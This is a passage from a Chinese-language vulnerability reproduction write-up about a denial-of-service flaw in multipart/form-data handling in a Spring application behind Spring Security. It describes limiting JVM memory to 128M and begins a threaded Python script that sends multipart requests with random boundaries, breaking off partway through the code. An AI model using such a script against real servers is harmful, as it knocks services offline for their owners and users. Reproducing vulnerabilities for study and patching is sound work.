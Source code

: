 因为是拒绝服务攻击，把内存调小一点，添加VM options，内容为-Xmx128M，让他只能使用128M内存

![image-20230720143110304](images/2.png)

# 漏洞复现

添加了spring security，没有任何业务代码，所以启动后只有Spring security的登陆页面。并且因为有Spring security的认证，访问任意url时，都会被重定向到/login页面

![image-20230720143250774](images/3.png)

python脚本

```
import threading

import requests
import random
import string
import concurrent.futures

def generate_random_string(length):
    return ''.join(random.choices(string.ascii_letters, k=length))

def generate_request(url, boundary):
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}"
```